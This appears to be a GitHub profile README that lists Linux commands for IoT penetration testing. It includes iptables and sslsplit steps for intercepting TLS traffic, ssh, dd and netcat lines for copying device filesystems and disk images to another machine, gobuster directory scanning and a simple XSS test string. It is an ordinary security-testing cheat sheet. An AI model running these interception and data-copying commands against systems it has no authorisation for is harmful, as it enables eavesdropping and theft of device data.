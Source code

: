 - 👋 Hi, I’m @CertAndKey
- 👀 Here are some useful Linux commands for IoT pentesters

MOVE IoT FILESYSTEM TO PENTEST MACHINE  tar zcvf -  <FILESYSTEM_HERE> | ssh user@laptop "cat > /path/to/laptop/save.tgz"
ADD IPTABLES FORWARDING RULE            sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 443 -j REDIRECT --to-port 8080
SSLSPLIT SETUP                          sslsplit -D -X <OUTPUT_FILE_DESTINATION> -k ca.key -c ca.crt ssl 0.0.0.0 8080
COPY READY ONLY FILESYSTEM              dd if=/dev/sda | gzip -1 - | ssh user@local dd of=image.gz
ENABLE IPFORWARD                        sudo bash -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
GOBUSTER                                gobuster dir -u <URL> -w /usr/share/wordlists/dirb/common.txt
CROSS-SITE SCRIPT TEST                  <script>alert('hello')</script>
VIEW OPENSSL CERT CONTENTS              openssl x509 -in ca.crt -text
PICOCOM                                 sudo picocom -b <baud> /dev/<device>     TO EXIT PICOCOM: CTRL+A then CTRL+x
MOVING FILES WITH NETCAT                nc -nvlp 9999 > /output/file/path         # on your machine
                                        nc ip.of.your.machine 9999 < /path/to/bin # on IoT device
RUN THE SAME COMMAND ON LOTS OF FILES   find * >> files.txt
                                        for files in $(cat files.txt);do <command> $files;done   #iterates through files.txt and runs command on each one
LOCATE PARTITIONS                       cat /proc/mtd
MONITOR USB DEVICE ACTIVITY             sudo dmesg -w
